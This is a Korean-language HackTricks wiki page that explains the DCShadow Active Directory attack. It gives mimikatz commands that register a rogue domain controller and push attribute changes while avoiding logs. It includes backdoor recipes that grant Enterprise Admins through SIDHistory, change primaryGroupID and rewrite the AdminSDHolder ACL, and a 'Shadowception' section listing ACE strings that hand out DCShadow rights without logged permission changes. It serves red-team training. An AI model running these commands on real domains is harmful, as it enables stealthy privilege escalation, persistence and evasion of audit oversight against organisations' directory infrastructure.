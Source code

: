 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


# DCShadow

AD에 **새 도메인 컨트롤러**를 등록하고 이를 사용하여 지정된 객체에 **속성**(SIDHistory, SPNs...)을 **로그**를 남기지 않고 **푸시**합니다. **DA** 권한이 필요하며 **루트 도메인** 내에 있어야 합니다.\
잘못된 데이터를 사용하면 매우 불쾌한 로그가 나타날 수 있습니다.

공격을 수행하려면 2개의 mimikatz 인스턴스가 필요합니다. 하나는 SYSTEM 권한으로 RPC 서버를 시작하며(여기서 수행할 변경 사항을 지정해야 함), 다른 인스턴스는 값을 푸시하는 데 사용됩니다:

{% code title="mimikatz1 (RPC servers)" %}
```bash
!+
!processtoken
lsadump::dcshadow /object:username /attribute:Description /value="My new description"
```
{% endcode %}

{% code title="mimikatz2 (push) - DA 또는 유사 권한 필요" %}
```bash
lsadump::dcshadow /push
```
{% endcode %}

**`elevate::token`**는 `mimikatz1` 세션에서 작동하지 않음을 주의하세요. 이는 스레드의 권한을 상승시켰지만, 우리는 **프로세스의 권한을 상승시켜야** 합니다.\
"LDAP" 객체를 선택할 수도 있습니다: `/object:CN=Administrator,CN=Users,DC=JEFFLAB,DC=local`

DA 또는 최소한의 권한을 가진 사용자로부터 변경 사항을 푸시할 수 있습니다:

* **도메인 객체**에서:
* _DS-Install-Replica_ (도메인에서 복제본 추가/제거)
* _DS-Replication-Manage-Topology_ (복제 토폴로지 관리)
* _DS-Replication-Synchronize_ (복제 동기화)
* **구성 컨테이너**의 **사이트 객체** (및 그 자식들):
* _CreateChild and DeleteChild_
* **DC로 등록된 컴퓨터의 객체**:
* _WriteProperty_ (쓰기 아님)
* **대상 객체**:
* _WriteProperty_ (쓰기 아님)

[**Set-DCShadowPermissions**](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1)를 사용하여 비권한 사용자에게 이러한 권한을 부여할 수 있습니다 (이로 인해 일부 로그가 남게 됩니다). 이는 DA 권한을 가지는 것보다 훨씬 더 제한적입니다.\
예를 들어: `Set-DCShadowPermissions -FakeDC mcorp-student1 SAMAccountName root1user -Username student1 -Verbose`  이는 _**mcorp-student1**_ 머신에 로그인한 사용자 이름 _**student1**_이 객체 _**root1user**_에 대해 DCShadow 권한을 가지고 있음을 의미합니다.

## DCShadow를 사용하여 백도어 생성하기

{% code title="SIDHistory에 사용자로서 Enterprise Admins 설정" %}
```bash
lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-521-280534878-1496970234-700767426-519
```
{% endcode %}

{% code title="기본 그룹 ID 변경 (사용자를 도메인 관리자 그룹의 구성원으로 추가)" %}
```bash
lsadump::dcshadow /object:student1 /attribute:primaryGroupID /value:519
```
{% endcode %}

{% code title="AdminSDHolder의 ntSecurityDescriptor 수정 (사용자에게 전체 제어 권한 부여)" %}
```bash
#First, get the ACE of an admin already in the Security Descriptor of AdminSDHolder: SY, BA, DA or -519
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Admin SDHolder,CN=System,DC=moneycorp,DC=local")).psbase.Objec tSecurity.sddl
#Second, add to the ACE permissions to your user and push it using DCShadow
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:<whole modified ACL>
```
{% endcode %}

## Shadowception - DCShadow를 사용하여 DCShadow 권한 부여 (수정된 권한 로그 없음)

다음 ACE를 사용자 SID와 함께 추가해야 합니다:

* 도메인 객체에서:
* `(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* `(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;UserSID)`
* `(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* 공격자 컴퓨터 객체에서: `(A;;WP;;;UserSID)`
* 대상 사용자 객체에서: `(A;;WP;;;UserSID)`
* 구성 컨테이너의 사이트 객체에서: `(A;CI;CCDC;;;UserSID)`

객체의 현재 ACE를 가져오려면: `(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=moneycorp,DC=loca l")).psbase.ObjectSecurity.sddl`

이 경우 **여러 변경을** 해야 하며, 단 하나의 변경만 하는 것이 아닙니다. 따라서 **mimikatz1 세션** (RPC 서버)에서 변경하려는 각 변경에 대해 **`/stack`** 매개변수를 사용하세요. 이렇게 하면 **`/push`**를 한 번만 수행하여 모든 스택된 변경을 악성 서버에서 수행할 수 있습니다.

[**ired.team에서 DCShadow에 대한 더 많은 정보.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow)

{% hint style="success" %}
AWS 해킹 배우고 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우고 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
